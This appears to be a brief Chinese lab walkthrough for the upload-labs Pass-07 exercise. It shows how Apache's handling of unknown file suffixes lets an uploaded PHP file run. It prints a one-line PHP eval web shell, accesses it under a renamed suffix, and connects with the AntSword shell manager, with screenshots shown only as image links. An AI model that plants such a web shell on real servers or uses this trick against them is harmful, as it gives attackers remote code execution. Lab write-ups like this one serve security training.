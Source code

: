 # Apache HTTPD-未知后缀名解析

upload-labs/Pass-07

上传1.php文件

```php
<?php @eval($_REQUEST[6868]);phpinfo();?>
```

![image-20230907153656323](./imgs/image-20230907153656323.png)

![image-20230907153709858](./imgs/image-20230907153709858.png)

![image-20230907153724264](./imgs/image-20230907153724264.png)

![image-20230907153734011](./imgs/image-20230907153734011.png)

访问`/upload/1.php.jaychou`

![image-20230907153753294](./imgs/image-20230907153753294.png)

蚁剑连接

![image-20230907153818864](./imgs/image-20230907153818864.png)